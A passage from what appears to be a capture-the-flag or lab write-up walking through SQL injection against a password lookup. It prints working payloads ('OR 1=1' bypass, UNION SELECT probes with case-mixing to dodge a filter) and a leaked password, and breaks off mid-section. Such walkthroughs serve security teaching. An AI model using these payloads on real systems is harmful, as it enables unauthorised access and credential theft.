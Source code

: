 ```
Error: unrecognized token: "''' LIMIT 30"
```

✅ The error confirms unsanitized SQL — it's vulnerable!

This is **typical of SQL Injection**: malformed input causes backend SQL parsing errors. We now try to exploit this.

---

## 4️⃣ Simple Injection to Bypass Query

Classic SQLi:

```
' OR '1'='1
```

Response:

```
Password: tF8tj2o94WE4LKC
```

✅ The password of the **first row** is returned, proving injection worked.

---

## 5️⃣ Exploring UNION-Based Injection

We try using `UNION SELECT` to extract data manually.

Initial test with comment `--`:

```
' UNION SELECT NULL --
```

Blocked.

Trying camelCase and different comment styles:

```
' UNIOn SELECt NULL '
```

Response:

```
Password: None
```

✅ Query succeeded, meaning **one column** is being selected.

---

## 6️⃣ Injecting and Extracting Arbitrary Data

Test injecting static data:

